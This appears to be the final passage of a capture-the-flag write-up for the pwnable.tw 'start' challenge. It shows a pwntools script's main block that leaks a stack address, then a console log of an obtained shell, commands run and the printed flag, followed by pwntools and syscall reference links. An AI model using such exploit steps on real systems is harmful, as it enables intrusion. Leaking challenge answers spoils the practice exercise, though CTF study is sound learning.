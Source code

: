 ```python
if __name__ == '__main__':
    # p = dbg()
    # p = process("./start")
    p = remote("chall.pwnable.tw",10000)
    saved_esp = leak_esp(p)
    print "leak saved_esp: %s" %hex(saved_esp+20)
    pwn(p,saved_esp)
```

```shell
$ python ./start.py
[+] Opening connection to chall.pwnable.tw on port 10000: Done
leak saved_esp: 0xffb43704
[*] Switching to interactive mode
$ whoami
start
$ find -name flag
./home/start/flag
$ cat ./home/start/flag
FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}
```


## REF

[Linux 系统调用](https://introspelliam.github.io/2017/08/06/pwn/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8%E7%BA%A6%E5%AE%9A/)

**pwntools使用**
http://brieflyx.me/2015/python-module/pwntools-intro/
https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/
https://tianstcht.github.io/pwntools%E7%9A%84%E4%BD%BF%E7%94%A8%E6%8A%80%E5%B7%A7/

